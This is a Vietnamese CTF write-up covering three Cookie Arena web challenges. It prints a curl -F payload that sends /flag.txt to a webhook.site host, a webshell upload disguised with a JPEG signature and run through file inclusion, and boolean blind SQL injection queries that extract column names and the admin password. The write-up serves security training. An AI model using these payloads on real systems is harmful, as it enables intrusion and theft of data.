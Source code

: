# CTF_cookie-Arena
Challenges CTF cookie arena with me

## 1 Baby Crawler

Writeup đầu tiên trong CTF_cookie-Arena này là challenge Baby Crawler với mình thì bài này không quá khó nhưng cũng làm tốn kha khá thời gian của mình và bắt đầu nào :>>
truy cập vào đường dẫn thử thách ta có giao diện chính của web với nút CRAWL và 1 đường link đến https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html khi bấm nút CRAWL web sẽ hiển thị 1 đường dẫn Cached File: như hình sau:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/30ae0633-365c-4d7a-84cf-a44bf2f39971)
truy cập vào thì nó sẽ dẫn ta đến trang chưa nội dung của bài báo. Sau khi tìm hiểu chức năng cũng như cách hoạt động của web mình thử view-source xem có kiếm được source code hoặc đường dẫn ẩn nào không thì đập vào mắt mình là /?debug
![Screenshot 2024-06-12 000915](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2764819a-475b-4c8e-9deb-520bf6969fcb) 
sau khi truy cập ?debug thì mình đã có được source của bài này (phần source mình có để ở Baby Crawler các bạn có thể xem)

Sau khi đọc source code thì mình đã chú ý đến đoạn sau

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/13979d67-2497-46a2-b74e-03602dd6c598)

Có thê thấy trong code biến $url là untrusted data được đưa vào 1 hàm nguy hiểm như shell_exec xử lý. Đến đây việc còn lại là khai thác lỗi  Command Injection và làm sao để khai thác nó. Để thao túng được biến url ta phải dảm bảo 2 điều kiện 
1 là bắt đầu là http do strpos sẽ kiễm tra chuỗi nhập có bắt đầu là http không 
2 là được filter bởi hàm **escapeshellcmd** thì trong PHP escapeshellcmd sẽ thoát khỏi các kí tự (& # ; `| * ? ~ < > ^ ( ) [ ] { } $ \ , \ x0A and \xFF . ' và ")

Nhận thấy curl được nối chuỗi với phần escapeshellcmd($url) mình đã thử nhiều cách nhưng vẫn không thu được kêt quả gì do vướng escapeshellcmd . Bỏ qua hướng tiếp cận bằng && ; thì mình thử tìm hiểu coi curl có thể làm được gì thì mình đã tìm ra được curl có cho phép mình gửi nội dung của file tới một server ngoài bằng -F (ex: curl -F "file=@/path/to/example.txt" https://api.example.com/upload). Tìm ra hướng đi mình bắt đầu thử nghiệm nó và server ngoài mình chọn để dùng là webhook.site và thực hiện input sau: https://webhook.site/1560d9e5-0482-4a96-b3d0-d1583a783b90 -F "file=@/flag.txt"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f7f80235-6165-4d2b-911d-8740724ab665) và ngay lập tức webhook mình nhận được gói tin
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/5c815677-e450-42f5-89b2-a6818746e1e0) lúc này mình chỉ cần download file chứa flag là xong

## 2 Baby File Inclusion

bài thứ 2 trong CTF_cookie-Arena này là challenge Baby File Inclusion
Yêu cầu của thử thách này là làm sao tạo ra được webshell để đọc được file flagxxx.txt trong hệ thống và đây là giao diện của lab gồm button cho mình tìm và tải file từ máy lên và 1 button để upload nó lên 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/1960da91-d9cf-4b65-8f9a-2ba2b014c243)
mình thử uploads 1 file hình ảnh lên thì mình có được 1 đường dẫn là uploads/download.jpg để xem hình ảnh
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/c3e1bdc5-16f0-4031-8dc8-ef18497cff15)

Tiếp theo mình thử upload 1 file có tên test.txt thì nhận lại thông báo "Sorry, the file extension 'txt' is not allowed"

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/22bfad3e-6ddd-45ca-a5ed-c19aa8e38266)

từ đó mình có thể đoán ra nó chỉ cho phép gửi file có đuôi là jpg hoặc png . Mình liền thử gửi lại nó qua burp-suite giữ lại đuôi file là .jpg thay đổi Content-Type sang image/jpeg nhưng sửa lại nội dung là phpinfo(); để xem có được không thì ăn ngay cái thông báo "Sorry, this content type is not allowed"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2b017c26-f459-46b3-a112-fd16ad26e276)

hum.... cho các bạn chưa biết thì trong PHP Các loại file khác nhau sẽ được xác định bằng một vài byte đầu tiên của file, gọi là file signature. Nó sẽ đọc các byte đầu tiên của tệp và so sánh chúng với cơ sở dữ liệu chữ ký để xác định loại MIME của tệp nếu khớp thì nó sẽ coi như file đó hợp lệ !!!!!
Có được kiến thức này thì bài lab này sẽ chỉ là 1 cái bánh chờ ta ăn thôi hahaha 
Việc cần làm lúc này là mình chỉ cần google tìm file signature của jpg copy nó vào trước webshell và uploads nó lên thôi (^.^)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f40b2ce1-f6a9-4829-a7e1-0eefad759e5b)
Ở đây mình tận dụng lại request lúc đầu xóa phần nội dung chỉ giữ lại cái file signature và chèn webshell "phpinfo()" để test thì đã thấy file haha.jpg được tải lên thành công giờ vào thử uploads/haha.jpg để xem web có chạy shell mà mình up lên không nhé
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ac339ebc-5658-4b49-936c-7704cb439e31)
kết quả không như mình tính toán nhỉ sau 1 lúc thì mình có để ý đuôi của URL của web có đoạn index.php?page=upload.php vậy nếu mình đổi upload.php sang uploads/haha.jpg thì sao ???
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16081811-b5be-4fae-9a74-0c419c48e34b)
Vậy là thành công rồi việc bây giờ là đổi shell để đọc được file flagxxx.txt (à mỗi lần up shell nhớ đổi tên file nha tại web sẽ không nhận file nhận lại file đã có ) và đây là cách mình làm
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16bf265b-b4b7-4dd5-a1ec-703b8e5ec217)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ad0d9eff-3445-472a-9b92-b14994e3d9c1)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/682f5f4e-f597-4f2e-97de-866d89d9670c)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/dc223cf1-c094-41d3-84ab-222f55609eec)


## 3 Simple Blind SQL Injection

Đến với bài 3 với yêu cầu là login account: admin ở /login để lấy flag và được biết password chỉ chứa các kí tự [a-z0-9_] truy cập vào lab tao có 1 trang sau 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/eca518e5-11a8-47bb-82b4-1d545455c2e9)

như hình thì ta có 1 vị trí để nhập và kiễm tra UID có tồn tại hay không nếu có thì sẽ thông báo "User uid exixsts" nếu không "User uid not Found!" mình thử nhập UID với admin và adminn
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/12f12632-e06a-4bd0-9f63-86a8d82fda37)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/86274607-dba5-4feb-8205-c0b462ffa58b)


sau khi hiểu chức năng của uid mình thử " và ' xem có error xảy ra không thì với dấu nháy kép (") không xảy ra gì nhưng nháy đơn (') web hiện lên error. Trong error ta biết web sử đụng sqlite3 và chú ý đến dòng nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0 ở đây t biết query lấy trực tiếp biện uid để chèn trực tiếp vào query sql và chắc chắn nó bị sql injection kết hợp với dữ kiện web chỉ trả về "User uid exixsts" nếu không "User uid not Found!" nên mình biết đây là boolean SQL Injection

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/6a991447-a3fc-4703-9031-63533e0bb238)

Sau khi xác định là boolean SQL Injection bây giờ mình sẽ tiến hành thực hiện khai thác nó với các bước sau:
  - Đầu tiên mình cần xác định table nơi chứa account và password của admin nhưng từ truy vấn "SELECT * FROM users WHERE uid ='%s'" mình có thể xác định luôn table tên users và 1 column tên uid
  - bước hai minh cần xác định số column trong table users ở đây mình viết ra 1 query hoàn chỉnh sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- rồi lấy admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- để chèn vào phần uid ở đây mình bắt đầu thử từ 1 và tăng lên từ từ vì biết chắc nó có ít nhất 2 column 1 cái là uid chứa account sau khi thử với 3 thì kết quả trả not found => table 'users' này có 3 column
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/98e725d3-ddd0-4dc1-ba20-0db0ebb60f1f)
  - bước ba xác định số kí tự trong tên column với query sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT LENGTH(name) FROM pragma_table_info('users') LIMIT 1 OFFSET 0) > 1) -- tương tự như bước 2 và lặp lại nhưng thay OFFSET bằng 1 để bỏ qua column đầu tiên mới check => tìm ra số kí tự của cả 3 column là 3 kí tự (trong đó 1 column là uid )
  - bước bốn tìm tên column chứa password với query sau : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 1) = 'a') = 1 )-- vì số kí trong tên column là 3 nên mình chỉ cần brute force kí tự thôi có thể dùng intruder trong burp-suite nhưng mình sẽ viết script python để thực hiện nhanh hơn (nghèo không có tìn mua bản pro T_T) script brute-foce_column.py mình có để file các bạn có thể tham khảo chạy xong thì mình được có được tên của 3 colun là idx,uid,upw như hình
 ![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f2f2bb6a-1e80-480a-ae6b-9b6badb50842)
  - bước năm thực hiện brute-force truy vấn mật khẩu của admin thôi nhưng trước hết thì cứ viết query trước đã : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT upw FROM users WHERE uid = 'admin'),1,1) = 'a') = 1 ) -- bây giờ giống như bước bốn mình sẽ sửa lại script đã viết trước đó (phần script sửa tên brute-foce_password.py) chạy script thì ra liền password nha login là có flag
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/7418e55e-e36c-450b-ad22-6204e06085db)





